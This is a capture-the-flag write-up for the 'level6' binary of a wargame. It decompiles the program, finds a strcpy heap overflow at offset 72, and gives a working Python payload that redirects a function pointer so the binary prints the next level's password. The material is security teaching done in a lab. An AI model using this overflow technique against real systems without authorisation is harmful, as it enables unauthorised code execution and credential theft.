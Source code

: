 ## Basic analysis
Let's see what **level6** binary does:
~~~shell
./level6
Segmentation fault (core dumped)
./level6 42
Nope
~~~
Okay, no more stdin, here we will have to enter some passphrase for the binary to give up the flag for next level. Let's take a look inside with Ghidra:
~~~C
void main(undefined4 param_1,int param_2)
{
  char *__dest;
  code **ppcVar1;
  
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  puts("Nope");
  return;
}
~~~
Well, that is not nice at all. From the basic flow, we can read that we can enter whatever we want and we will get **Nope** in return.
There is, however also function **n()**:
~~~C
void n(void)
{
  system("/bin/cat /home/user/level7/.pass");
  return;
}
~~~
That's better, that is what we want to see! How do we get to this function? Well, there is a **strcpy()**, which is, according to the **man** pages, vulnerable to buffer overflow:
*"If the destination string of a strcpy() is not large enough, then anything might happen. Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine."*

So, this is our old friend...

## Buffer overflow payload

We will find the offset using the **Wiremask** tool:
~~~shell
level6@RainFall:~$ gdb ./level6
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae
Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) 
~~~
Found offset of **72**.

Now the payload - must be sent as a argument, because the program segfaults without it:
~~~shell
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x08\x04\x84\x54"[::-1]')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
~~~


